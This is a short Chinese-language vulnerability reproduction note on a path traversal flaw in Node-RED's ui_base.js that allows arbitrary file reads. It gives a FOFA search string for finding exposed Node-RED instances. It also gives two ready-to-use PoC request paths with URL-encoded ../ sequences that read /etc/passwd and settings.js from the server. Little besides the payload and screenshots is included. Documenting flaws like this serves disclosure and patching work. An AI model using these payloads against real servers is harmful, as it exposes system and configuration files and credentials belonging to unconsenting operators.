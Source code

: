 # Node-RED ui_base 任意文件读取漏洞

## 漏洞描述

Node-RED 在/nodes/ui_base.js中，URL与'/ui_base/js/*'匹配，然后传递给path.join，

缺乏对最终路径的验证会导致路径遍历漏洞，可以利用这个漏洞读取服务器上的敏感数据，比如settings.js

## 漏洞影响

<a-checkbox checked>Node-RED</a-checkbox></br>

## FOFA

<a-checkbox checked>title="Node-RED"</a-checkbox></br>

## 漏洞复现

访问页面

![img](../../../.vuepress/public/img/image-20210701185722667.png)



验证POC

```plain
/ui_base/js/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd
/ui_base/js/..%2f..%2f..%2f..%2fsettings.js
```

![img](../../../.vuepress/public/img/image-20210701185812622.png)



![img](../../../.vuepress/public/img/image-20210704171045540.png)